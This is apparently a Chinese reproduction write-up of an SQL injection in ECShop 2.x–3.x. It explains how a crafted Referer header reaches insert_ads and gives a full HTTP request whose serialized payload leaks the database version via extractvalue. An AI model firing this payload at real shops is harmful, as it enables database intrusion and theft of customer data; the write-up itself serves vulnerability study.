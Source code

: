 ```yaml
---
title: "ECShop <= 2.7.x sql注入漏洞"
id: zhfly2898
---
```


# ECShop <= 2.7.x sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

ECShop（2.x、3.0.x、3.6.x）

## 三、复现过程

### 漏洞分析

先看user.php

![image](../img/2a5872b83dde8e7dc6f7f53a4ab5283e.png)

$back_act变量来源于HTTP_REFERER，我们可控。

assign函数用于在模版变量里赋值

![image](../img/6391bb0d2cab1ea567b85806cb237abd.png)

再看display函数

![image](../img/80c0ed278ee12fa90e9248be8ed537ff.png)

读取user_passport.dwt模版文件内容，显示解析变量后的html内容，用_echash做分割，得到$k然后交给isnert_mod处理，由于_echash是默认的，不是随机生成的，所以$val内容可随意控制。

再看insert_mod函数

![image](../img/47cf221f2b502c8358fbb76f57e83f53.png)

非常关键的一个地方，这里进行了动态调用

$val传入进来用|分割，参数传入进来时需要被序列化

再看include/lib_insert.php中的insert_ads函数

![image](../img/915e11fc2600aeb0f9a343aeafeb782b.png)

可以看到这里直接就能注入了

### payload

```
GET /user.php?act=login HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0 
```

![image](../img/1d60deffbaad099969511257c113adc8.png)

## 参考链接

> https://cloud.tencent.com/developer/article/1333449